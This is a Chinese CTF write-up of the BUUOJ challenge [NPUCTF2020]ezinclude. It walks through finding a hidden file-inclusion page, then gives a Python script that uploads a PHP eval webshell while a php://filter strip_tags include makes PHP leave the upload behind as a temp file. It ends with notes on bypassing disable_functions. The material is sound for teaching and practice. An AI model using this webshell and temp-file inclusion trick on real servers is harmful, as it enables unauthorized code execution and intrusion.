



# [NPUCTF2020]ezinclude

## 知识点

`php文件包含临时文件getshell`

## 解题

首先进入题目首页，提示`username/password error`，看源码提示`<!--md5($secret.$name)===$pass -->`，在`Cookie`里看到了`Hash`值，尝试`GET`传参到`pass`参数,发现中间跳转到了`/flflflflag.php`又转到了`404.html`，尝试访问`/flflflflag.php`



发现提示文件包含，尝试读取文件，发现可以正常读取文件，且本地有个`dir.php`可以查看`/tmp`目录下的文件(重点)



但是无法进一步利用，可以用到包含临时文件的方法

- [PHP临时文件机制与利用的思考 - linuxsec - 博客园 (cnblogs.com)](https://www.cnblogs.com/linuxsec/articles/11278477.html)

- [关于php文件操作的几个小trick - tr1ple - 博客园 (cnblogs.com)](https://www.cnblogs.com/tr1ple/p/11301743.html)

使用脚本利用

```python
import requests

url = "http://f285812d-1af4-4f53-8a1c-6428a8759de4.node5.buuoj.cn:81/flflflflag.php?file=php://filter/string.strip_tags/resource=/etc/passwd"

php_content = "<?php @eval($_POST[1]);?>"
# php_content = "<?php phpinfo();?>"

file = {
    "file": php_content
}

resp = requests.post(url, files=file)

print(resp.text)
```

运行后会报`404`，但是实际上已经将马写入了,在`dir.php`看一下写入路径，然后`绕过disable_functions`找半天没发现`flag`，最后在`phpinfo`中找到`flag`

